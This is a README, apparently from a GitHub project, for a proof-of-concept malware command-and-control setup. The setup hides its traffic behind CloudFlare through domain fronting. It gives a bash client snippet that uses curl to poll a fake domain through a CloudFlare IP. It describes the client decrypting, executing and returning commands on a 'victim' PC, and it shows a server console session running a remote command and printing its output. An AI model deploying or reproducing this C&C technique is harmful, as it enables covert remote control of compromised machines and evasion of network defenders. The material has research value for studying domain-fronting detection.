 # CloudFlare C&C POC
Before to start, let me say that I'm not a super expert on how to write a C&C client-server. This want to be a POC on how a Malware can hide behind a "fake" CloudFlare domain (see this post for more information: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437)

![](http://i.imgur.com/ZTsKokU.gif)

## How it work
The client, on the "Victim" PC, is a bash script that uses cURL to connect to CloudFlare and OpenSSL to encrypt all communications from and to CloudFlare/C&C. It simply make 2 HTTP request each *n* seconds: The first one, in order to discover a CloudFlare IP address, try to connect to a "real" CloudFlare website. The second one, make a fake request to CloudFlare to reach our C&C.

```bash
# get any usable CloudFlare IP address
CFIP=$(curl -v -I http://medium.com 2>&1 | egrep -o '\d+\.\d+\.\d+\.\d+' | head -1)

# get updates from my C&C
curl -H "Host: myfakedomain.com" "http://${CFIP}/?nocache=`date +%s`"
```

When the client receive an update, it decrypt the response_body and execute the command. Then it encrypt the command output and send it back to the C&C. The bash script uses OpenSSL to encrypt and decrypt.

![hiw](http://i.imgur.com/hYzqMWx.png)

## A dump of the client request
Following, a screenshot that shows how the client requests appear sniffing the http traffic on the victim PC.
![ws](http://i.imgur.com/ilVKfgV.png)

First, we have a CloudFlare IP `104.16.122.127` as a destination IP address:
```bash
$ whois 104.16.122.127
...
OrgName:        Cloudflare, Inc.
OrgId:          CLOUD14
Address:        101 Townsend Street
City:           San Francisco
StateProv:      CA
PostalCode:     94107
Country:        US
RegDate:        2010-07-09
Updated:        2017-02-17
Comment:        All Cloudflare abuse reporting can be done via https://www.cloudflare.com/abuse
Ref:            https://whois.arin.net/rest/org/CLOUD14
...
```

Then we see a POST request to `corriere.it` hostname (an italian daily newspaper), and in the request body we have the encrypted `ls -lart /tmp/` output.

## C&C Server
On the server side, you just need to configure a web server to reach the index.php script and to answer to all requests for the fake CloudFlare domain you choose. Then, you just need to execute the cc.php script:
```bash
root@theMiddle # php cc.php 
cmd: # list
Array
(
    [remoteserver] => Array
        (
            [lastseen] => 1502418263
            [ip] => 93.42.--.---
        )

)
cmd: #
cmd: # exec remoteserver: ls -lart /tmp/
> command sent, waiting for an answer.......
< total 92184
drwxr-xr-x@  6 root         wheel      204  5 Ott  2016 ..
-rw-r--r--   1 root         wheel        0  7 Ago 09:03 AlTest1.out
-rw-r--r--   1 root         wheel        0  7 Ago 09:03 AlTest1.err
drwx------   3 andreamenin  wheel      102  7 Ago 09:04 com.apple.launchd.uV6Rgp5yZb
drwx------   3 andreamenin  wheel      102  7 Ago 09:04 com.apple.launchd.HlZvBsVX2E
prw-rw-rw-   1 root         wheel        0  7 Ago 09:04 F7C71944B49B446081C0603DE90E4855_OUT
prw-rw-rw-   1 root         wheel        0  7 Ago 09:04 F7C71944B49B446081C0603DE90E4855_IN
-rw-r--r--   1 andreamenin  wheel        0  7 Ago 09:04 ExmanProcessMutex
srwx------   1 andreamenin  wheel        0  7 Ago 09:04 com.adobe.AdobeIPCBroker.ctrl-andreamenin
prw-rw-rw-   1 root         wheel        0  7 Ago 09:04 F91319AC-60C5-4073-9939-E9AD7C86611F_OUT
prw-rw-rw-   1 root         wheel        0  7 Ago 09:04 F91319AC-60C5-4073-9939-E9AD7C86611F_IN
-rw-rw-rw-@  1 andreamenin  wheel        0  7 Ago 09:04 .keystone_install_lock
drwxr-xr-x   2 andreamenin  wheel       68 10 Ago 10:02 E0EF0051-86D8-4E45-BDC5-28942C32B599
drwxr-xr-x   2 andreamenin  wheel       68 10 Ago 10:02 DC48AD0F-A69A-4F9C-AB96-FCB2657C5152
drwxr-xr-x   2 andreamenin  wheel       68 10 Ago 10:02 11DFEDB6-FD30-4238-B97D-9E7DDAE721D6
drwxr-xr-x   3 andreamenin  wheel      102 10 Ago 10:02 65410FB8-398C-4ED1-9CBB-E3CFE9275435
-rw-r--r--   1 root         wheel  2048000 10 Ago 18:07 wifi-08-10-2017__18:07:45.log
-rw-r--r--   1 root         wheel  2048000 10 Ago 18:07 wifi-08-10-2017__18:07:46.log
drwxrwxrwt  42 root         wheel     1428 11 Ago 04:12 .
cmd: #
cmd: #
```

## Info
What "Domain Fronting" is: https://en.wikipedia.org/wiki/Domain_fronting <br>
CloudFlare Domain Fronting: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437 <br>
theMiddle @twitter: https://twitter.com/Menin_TheMiddle <br>
